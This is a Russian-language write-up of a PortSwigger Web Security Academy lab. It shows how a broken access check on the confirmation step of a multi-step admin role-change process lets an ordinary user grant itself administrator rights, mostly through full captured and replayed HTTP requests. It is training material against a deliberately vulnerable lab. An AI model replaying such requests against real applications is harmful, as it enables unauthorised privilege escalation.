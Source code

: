 ```yaml
---
title: "Multi-step process with no access control on one step"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step"
classes: wide
---
```


У нас есть данные для входа в учетную запись администратора `administrator`:`admin` и в нашу `wiener`:`peter`.

Для прохождения лабы нужно повысить права нашего аккаунта через **уязвимость контроля доступа в многоэтапных процессах**.

```
https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/
```

## Solution

Зайду в аккаунт админа. Далее в админ панель:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/1.png){: height="200" .align-center}

Изменю права `carlos`, чтобы собрать примеры запросов. Первый запрос:

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=a6TJSBlFMfA6NdDFXkyV823s7KHTwoFt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=carlos&action=upgrade
```

Второй запрос:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/2.png){: height="200" .align-center}

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=a6TJSBlFMfA6NdDFXkyV823s7KHTwoFt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin-roles
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

action=upgrade&confirmed=true&username=carlos
```

Закину запросы в `Repeater` и перейду в свой ЛК.

Подставлю новую печеньку, чтобы отправлять запросы не от лица админа. Попробую изменить первый запрос:

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=u8YcNctzG7Cqa03jU2zCvyNTnJ8xSX6g
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&action=upgrade
```

~~Отказ~~Ответ:

```http
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
Set-Cookie: session=BEdfm5r7oSkeStSTiFVVGdcHNisfH0Pi; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

Попытаю удачу со вторым запросом:

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=u8YcNctzG7Cqa03jU2zCvyNTnJ8xSX6g
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin-roles
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

action=upgrade&confirmed=true&username=wiener
```

Ответ:

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

Появилась вкладка панели администратора:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/3.png){: height="200" .align-center}


Лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/4.png){: height="200" .align-center}